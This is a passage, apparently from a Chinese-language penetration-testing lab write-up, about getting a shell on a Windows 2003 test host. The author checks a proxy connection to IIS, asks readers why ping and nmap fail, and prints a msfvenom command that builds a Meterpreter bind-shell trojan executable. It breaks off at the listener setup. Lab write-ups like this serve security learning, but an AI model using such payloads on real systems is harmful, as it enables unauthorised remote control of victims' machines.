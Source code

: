 ![image-20230518142233580](assets/lwYgHSVkFCdENuP.png)

## 3.2. Windows 2003上线

### 3.2.1. 代理测试

这里我在`Windows 2003`上设置了一个`IIS`服务，可以看到代理是成功连接到了，这图都是后补的，由于思考到，真实性所以就在这上面添加了，测试是否真的能够使其它工具连接到，但是我发现好像能连接，但是无法`ping`，而且`nmap`也无法扫描，这......

有大佬了解么？

![image-20230518161518204](assets/H2FNUqipCTIxwED.png)

### 3.2.2. 生成木马

这里我们生成一个木马，这个木马和`CS`是一样的都是正向连接。

```
msfvenom -p windows/meterpreter/bind_tcp LHOST=0.0.0.0 LPORT=2222 -f exe > 2003.exe
```

### 3.2.3. 设置监听
